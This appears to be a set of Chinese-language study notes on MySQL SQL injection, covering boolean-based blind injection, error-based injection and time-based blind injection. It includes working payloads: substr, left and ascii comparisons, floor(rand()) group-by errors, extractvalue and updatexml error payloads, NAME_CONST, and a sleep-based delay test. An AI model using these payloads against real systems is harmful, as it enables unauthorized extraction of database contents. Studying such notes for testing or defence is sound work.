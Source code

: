 # 盲注

 ## 1.基于布尔SQL盲注----------构造逻辑判断

 -   盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注：
      -  三大法宝：mid(),substr(),left()
      -  str="123456"     mid(str,2,1)    结果为2
      -  substr(DATABASE(),1,1)>’a’,查看数据库名第一位
      -  left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位
      -  ORD()函数，此函数为返回第一个字符的ASCII码
      -  ASCII('a')
      -  regexp正则注入  
		 select user() regexp '^[a-z]'
      -  ike匹配注入  
			select user() like 'ro%'

## 2.   报错注入

1. rand不能和order by一起用
    -  `	select * from users where id=1 and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a);`
    -  	 `select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

2. 	extractvalue（）
    - `select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));  `  
    0x7e 代表   &nbsp; &nbsp;<b>~</b>
    - `select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));`
4. 利用数据重复性
    - ` select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;`

## 3.   基于时间的SQL盲注----------延时注入

   -   `If(ascii(substr(database(),1,1))>115,0,sleep(5))  `







